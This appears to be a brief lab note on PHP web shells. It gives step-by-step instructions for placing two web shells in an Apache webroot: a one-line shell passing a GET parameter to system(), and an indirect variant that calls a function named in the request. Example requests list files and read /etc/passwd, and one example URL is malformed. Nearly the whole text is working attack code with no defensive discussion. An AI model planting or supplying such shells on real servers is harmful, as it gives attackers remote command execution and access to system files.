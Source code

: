 ```yaml
---
description: 4/13/2023
---
```


# PHP Web Shell Lab

### PHP Shell that allows command exec. via GET request

* Create a new file called `shell.php` in the Apache webroot (`/var/www/html`)
* Add to the file: `<?php system($_GET['cmd']); ?>`
* Save and exit, and navigate to `http://server-ip/shell.php?cmd=ls` to execute the `ls` command
* Create a new file called `get.php`
* Add to the file: `<?php $g=$_GET['_']; $e=$_GET['__']; $g($e); ?>`
* Save and exit, and navigate to `http://server-ip/get.php_=system&__=cat%20/etc/passwd`
